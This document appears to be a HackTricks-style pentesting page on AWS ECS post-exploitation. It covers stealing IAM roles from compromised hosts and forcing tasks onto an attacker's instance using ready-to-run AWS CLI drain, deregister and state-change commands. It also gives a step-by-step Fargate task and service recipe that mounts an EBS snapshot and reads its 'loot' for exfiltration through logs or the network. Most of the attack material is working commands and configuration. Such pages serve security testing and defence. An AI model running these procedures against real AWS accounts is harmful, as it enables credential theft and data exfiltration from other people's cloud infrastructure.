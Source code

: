 # AWS - ECS Post Exploitation

## ECS

For more information check:

[[../../aws-services/aws-ecs-enum.md]]

### Host IAM Roles

In ECS an **IAM role can be assigned to the task** running inside the container. **If** the task is run inside an **EC2** instance, the **EC2 instance** will have **another IAM** role attached to it.\
Which means that if you manage to **compromise** an ECS instance you can potentially **obtain the IAM role associated to the ECR and to the EC2 instance**. For more info about how to get those credentials check:

[[https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf.html]]

> [!CAUTION]
> Note that if the EC2 instance is enforcing IMDSv2, [**according to the docs**](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-v2-how-it-works.html), the **response of the PUT request** will have a **hop limit of 1**, making impossible to access the EC2 metadata from a container inside the EC2 instance.

### Privesc to node to steal other containers creds & secrets

But moreover, EC2 uses docker to run ECs tasks, so if you can escape to the node or **access the docker socket**, you can **check** which **other containers** are being run, and even **get inside of them** and **steal their IAM roles** attached.

#### Making containers run in current host

Furthermore, the **EC2 instance role** will usually have enough **permissions** to **update the container instance state** of the EC2 instances being used as nodes inside the cluster. An attacker could modify the **state of an instance to DRAINING**, then ECS will **remove all the tasks from it** and the ones being run as **REPLICA** will be **run in a different instance,** potentially inside the **attackers instance** so he can **steal their IAM roles** and potential sensitive info from inside the container.

```bash
aws ecs update-container-instances-state \
    --cluster <cluster> --status DRAINING --container-instances <container-instance-id>
```

The same technique can be done by **deregistering the EC2 instance from the cluster**. This is potentially less stealthy but it will **force the tasks to be run in other instances:**

```bash
aws ecs deregister-container-instance \
    --cluster <cluster> --container-instance <container-instance-id> --force
```

A final technique to force the re-execution of tasks is by indicating ECS that the **task or container was stopped**. There are 3 potential APIs to do this:

```bash
# Needs: ecs:SubmitTaskStateChange
aws ecs submit-task-state-change --cluster <value> \
    --status STOPPED --reason "anything" --containers [...]

# Needs: ecs:SubmitContainerStateChange
aws ecs submit-container-state-change ...

# Needs: ecs:SubmitAttachmentStateChanges
aws ecs submit-attachment-state-changes ...
```

### Steal sensitive info from ECR containers

The EC2 instance will probably also have the permission `ecr:GetAuthorizationToken` allowing it to **download images** (you could search for sensitive info in them).

### Mount an EBS snapshot directly in an ECS task (configuredAtLaunch + volumeConfigurations)

Abuse the native ECS EBS integration (2024+) to mount the contents of an existing EBS snapshot directly inside a new ECS task/service and read its data from inside the container.

- Needs (minimum):
  - ecs:RegisterTaskDefinition
  - One of: ecs:RunTask OR ecs:CreateService/ecs:UpdateService
  - iam:PassRole on:
    - ECS infrastructure role used for volumes (policy: `service-role/AmazonECSInfrastructureRolePolicyForVolumes`)
    - Task execution/Task roles referenced by the task definition
  - If the snapshot is encrypted with a CMK: KMS permissions for the infra role (the AWS managed policy above includes the required KMS grants for AWS managed keys).

- Impact: Read arbitrary disk contents from the snapshot (e.g., database files) inside the container and exfiltrate via network/logs.

Steps (Fargate example):

1) Create the ECS infrastructure role (if it doesn’t exist) and attach the managed policy:

```bash
aws iam create-role --role-name ecsInfrastructureRole \
  --assume-role-policy-document '{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Principal":{"Service":"ecs.amazonaws.com"},"Action":"sts:AssumeRole"}]}'
aws iam attach-role-policy --role-name ecsInfrastructureRole \
  --policy-arn arn:aws:iam::aws:policy/service-role/AmazonECSInfrastructureRolePolicyForVolumes
```

2) Register a task definition with a volume marked `configuredAtLaunch` and mount it in the container. Example (prints the secret then sleeps):

```json
{
  "family": "ht-ebs-read",
  "networkMode": "awsvpc",
  "requiresCompatibilities": ["FARGATE"],
  "cpu": "256",
  "memory": "512",
  "executionRoleArn": "arn:aws:iam::<ACCOUNT_ID>:role/ecsTaskExecutionRole",
  "containerDefinitions": [
    {"name":"reader","image":"public.ecr.aws/amazonlinux/amazonlinux:latest",
     "entryPoint":["/bin/sh","-c"],
     "command":["cat /loot/secret.txt || true; sleep 3600"],
     "logConfiguration":{"logDriver":"awslogs","options":{"awslogs-region":"us-east-1","awslogs-group":"/ht/ecs/ebs","awslogs-stream-prefix":"reader"}},
     "mountPoints":[{"sourceVolume":"loot","containerPath":"/loot","readOnly":true}]
    }
  ],
  "volumes": [ {"name":"loot", "configuredAtLaunch": true} ]
}
```

3) Create or update a service passing the EBS snapshot via `volumeConfigurations.managedEBSVolume` (requires iam:PassRole on the infra role). Example:

```json
{
  "cluster": "ht-ecs-ebs",
  "serviceName": "ht-ebs-svc",
  "taskDefinition": "ht-ebs-read",
  "desiredCount": 1,
  "launchType": "FARGATE",
  "networkConfiguration": {"awsvpcConfiguration":{"assignPublicIp":"ENABLED","subnets":["subnet-xxxxxxxx"],"securityGroups":["sg-xxxxxxxx"]}},
  "volumeConfigurations": [
    {"name":"loot","managedEBSVolume": {"roleArn":"arn:aws:iam::<ACCOUNT_ID>:role/ecsInfrastructureRole", "snapshotId":"snap-xxxxxxxx", "filesystemType":"ext4"}}
  ]
}
```

4) When the task starts, the container can read the snapshot contents at the configured mount path (e.g., `/loot`). Exfiltrate via the task’s network/logs.

Cleanup:

```bash
aws ecs update-service --cluster ht-ecs-ebs --service ht-ebs-svc --desired-count 0
aws ecs delete-service --cluster ht-ecs-ebs --service ht-ebs-svc --force
aws ecs deregister-task-definition ht-ebs-read
```

